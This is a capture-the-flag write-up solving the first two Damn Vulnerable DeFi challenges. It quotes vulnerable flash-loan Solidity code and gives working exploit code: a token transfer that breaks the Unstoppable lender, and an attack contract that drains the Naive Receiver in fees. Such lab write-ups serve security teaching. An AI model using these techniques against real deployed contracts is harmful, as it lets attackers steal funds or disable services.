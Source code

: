 ![](cover.png)

# Damn Vulnerable DeFi solutions (v2)

Challenges created by [@tinchoabbate](https://twitter.com/tinchoabbate) at [damnvulnerabledefi.xyz](https://www.damnvulnerabledefi.xyz/).

## #1 - Unstoppable

The goal of this challenge is to disable flash loan lender contract. We are looking for DoS attack.

Vulnerability is located inside **flashLoan()** function in **UnstoppableLender.sol** :

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);

  damnValuableToken.transfer(msg.sender, borrowAmount);

  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

In order to disable contract from offering flash loans, we need to break one of the 4 safety checks inside the function.

Particiullary interesting one:

```solidity
// Ensured by the protocol via the `depositTokens` function
assert(poolBalance == balanceBefore);
```

The assert statement is making sure that contract balance of DVT token (`balanceBefore`) is matching the inner contract logic balance (`poolBalance`) that is updated when user deposits tokens using `depositTokens` function.

It assumes that no external transfers will occur, which is a flawed assumption.

We can exploit this by transferring DVT tokens to contract with ERC20 `transfer` function.

Solution code:

```js
// ...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  await this.token
    .connect(attacker)
    .transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
// ...
```

## #2 - Naive Receiver

This challange might be tricky at first. Goal is not to attack lender, rather we need to drain funds from receiver even though vulnerability is inside lender's contract.

**NaiveReceiverLenderPool.sol** is offering flash loans, but it always takes constant fee of **1 ether**.
There is nothing wrong with contract's logic, but the way it offers flash loans is not very secure.

As we can see from `flashLoan()` function:

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool");

    require(borrower.isContract(), "Borrower must be a deployed contract");
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );

    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

It's clear that caller is specifying address of borrower as paramater. So, we can call `flashLoan()` and specify **flashLoanReceiver.sol**'s address as borrower, calling it 10 times would be enough to drain all funds from receiver since 1 loan costs 1 ether in fees.

We will make new **NaiveReceiverAttack.sol** contract that will essentially call `flashLoan()` 10 times with **flashLoanReceiver.sol**'s address as borrower paramater.

Solution code:

**NaiveReceiverAttack.sol :**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../naive-receiver/NaiveReceiverLenderPool.sol";

contract NaiveReceiverAttack {
    NaiveReceiverLenderPool immutable pool;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function attack(address victim) external {
        for (uint i = 0; i < 10; i++) {
            pool.flashLoan(victim, 1 ether);
        }
    }
}

```

**naive-receiver.challenge.js :**

```js
// ...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const AttackFactory = await ethers.getContractFactory(
    'NaiveReceiverAttack',
    attacker
  );
  const attackContract = await AttackFactory.deploy(this.pool.address);
  await attackContract.attack(this.receiver.address);
});
// ...
```
